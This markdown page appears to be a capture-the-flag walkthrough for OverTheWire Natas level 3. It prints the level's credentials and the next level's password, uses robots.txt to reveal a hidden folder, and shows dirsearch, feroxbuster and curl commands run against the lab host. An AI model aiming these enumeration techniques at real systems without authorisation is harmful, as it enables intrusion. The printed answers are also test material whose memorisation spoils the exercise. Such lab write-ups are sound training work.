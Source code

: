 ```yaml
---
layout: default
test_level3
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas3 \
URL:      http://natas3.natas.labs.overthewire.org

# solve
- login with cred natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
- if you check the web you won't find a directory listing because the directory listing isn't there
- u can check robots.txt first because show the allow and disallow path user agent
- and Here I found the folder that was allowed, namely /s3cr3t/
  - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt # natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ 
- or use the tool bruteforce directory
  ```bash
  echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64 # make the base64 for authentication

  dirsearch -u natas3.natas.labs.overthewire.org -e txt,html -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

  feroxbuster -u http://natas3.natas.labs.overthewire.org -x .txt,.html -H "Authorization: Basic $(echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64)"
  # 200      GET        1l        1w       40c http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
  # 200      GET        2l        4w       33c http://natas3.natas.labs.overthewire.org/robots.txt
  ```

- after u found the directory and the file u can curl the flag
  ```bash
  curl http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
  natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
  ```

# flag
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ